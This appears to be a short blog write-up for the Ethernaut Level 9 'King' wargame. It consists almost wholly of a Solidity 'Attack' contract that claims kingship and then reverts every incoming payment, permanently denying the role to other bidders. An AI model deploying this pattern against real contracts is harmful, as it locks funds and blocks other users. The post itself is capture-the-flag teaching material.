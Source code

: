 +++
title = 'Ethernaut Level 9 - King'
date = 2024-04-09 02:00:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Stay King forever by refusing money'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.2;

interface King {}

// https://www.youtube.com/watch?v=5kNONlpJdDk
// http://www.kingoftheether.com/postmortem.html
contract Attack {
    King etherGame;

    constructor(King _etherGame) payable  {
        // Send enough eth to become king
        (bool success, bytes memory data) = address(_etherGame).call{value:1000000000000001}("");
        require(success);
    }

    // Refuse to receive Eth to DOS
    receive() external payable {
        assert(false);
    }
}
```